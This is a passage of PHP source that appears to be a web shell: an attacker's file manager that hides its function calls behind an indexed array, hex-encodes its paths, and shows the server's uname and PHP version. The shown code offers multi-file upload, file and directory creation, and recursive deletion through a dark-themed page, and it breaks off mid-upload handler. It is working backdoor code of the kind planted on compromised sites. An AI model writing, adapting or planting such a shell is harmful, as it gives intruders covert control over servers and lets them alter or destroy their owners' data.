 		$i = 'd';
	} elseif (($p & 0x2000) == 0x2000) {
		$i = 'c';
	} elseif (($p & 0x1000) == 0x1000) {
		$i = 'p';
	} else {
		$i = 'u';
	}
	$i .= (($p & 0x0100) ? 'r' : '-');
	$i .= (($p & 0x0080) ? 'w' : '-');
	$i .= (($p & 0x0040) ? (($p & 0x0800) ? 's' : 'x') : (($p & 0x0800) ? 'S' : '-'));
	$i .= (($p & 0x0020) ? 'r' : '-');
	$i .= (($p & 0x0010) ? 'w' : '-');
	$i .= (($p & 0x0008) ? (($p & 0x0400) ? 's' : 'x') : (($p & 0x0400) ? 'S' : '-'));
	$i .= (($p & 0x0004) ? 'r' : '-');
	$i .= (($p & 0x0002) ? 'w' : '-');
	$i .= (($p & 0x0001) ? (($p & 0x0200) ? 't' : 'x') : (($p & 0x0200) ? 'T' : '-'));
	return $i;
}
function a($msg, $sts = 1, $loc = "") {
	global $p;
	$status = (($sts == 1) ? "success" : "error");
	echo "<script>swal({title: \"{$status}\", text: \"{$msg}\", icon: \"{$status}\"}).then((btnClick) => {if(btnClick){document.location.href=\"?p=".hex($p).$loc."\"}})</script>";
}
function deldir($d) {
	global $fc;
	if (trim(pathinfo($d, PATHINFO_BASENAME), '.') === '') return;
	if ($fc[6]($d)) {
		array_map("deldir", glob($d . DIRECTORY_SEPARATOR . '{,.}*', GLOB_BRACE | GLOB_NOSORT));
		rmdir($d);
	} else {
		unlink($d);
	}
}
?>
<!doctype html>

<html lang="en"><head><meta name="theme-color" content="red"><meta name="viewport" content="width=device-width, initial-scale=0.60, shrink-to-fit=no"><link rel="stylesheet" href="//cdn.jsdelivr.net/npm/bootstrap@4.6.0/dist/css/bootstrap.min.css"><link rel="stylesheet" href="//cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css"><title><?= self ?></title><style>.table-hover tbody tr:hover td{background:red}.table-hover tbody tr:hover td>*{color:#fff}.table>tbody>tr>*{color:#fff;vertical-align:middle}.form-control{background:0 0!important;color:#fff!important;border-radius:0}.form-control::placeholder{color:#fff;opacity:1}li{font-size:18px;margin-left:6px;list-style:none}a{color:#fff}</style><script src="//unpkg.com/sweetalert/dist/sweetalert.min.js"></script></head><body style="background-color:#000;color:#fff;font-family:serif;"><div class="bg-dark table-responsive text-light border"><div class="d-flex justify-content-between p-1"><div><h3 class="mt-2"><a href="?"><?= self ?></a></h3></div><div><span>PHP Version : <?= $fc[1]() ?></span> <br><a href="?p=<?= hex($p)."&a=".hex("newFile") ?>">+File</a><a href="?p=<?= hex($p)."&a=".hex("newDir") ?>">+Directory</a></div></div><div class="border-top table-responsive"><li>Uname : <?= $fc[0]() ?></li></div><form method="post" enctype="multipart/form-data"><div class="input-group mb-1 px-1 mt-1"><div class="custom-file"><input type="file" name="f[]" class="custom-file-input" onchange="this.form.submit()" multiple><label class="custom-file-label rounded-0 bg-transparent text-light">Choose file</label></div></div></form>
<?php
if (isset($_FILES["f"])) {
	$n = $_FILES["f"]["name"];
	for ($i = 0; $i < count($n); $i++) {
		if ($fc[11]($_FILES["f"]["tmp_name"][$i], $n[$i])) {
			a("file uploaded successfully");
		} else {
			a("file failed to upload", 0);
		}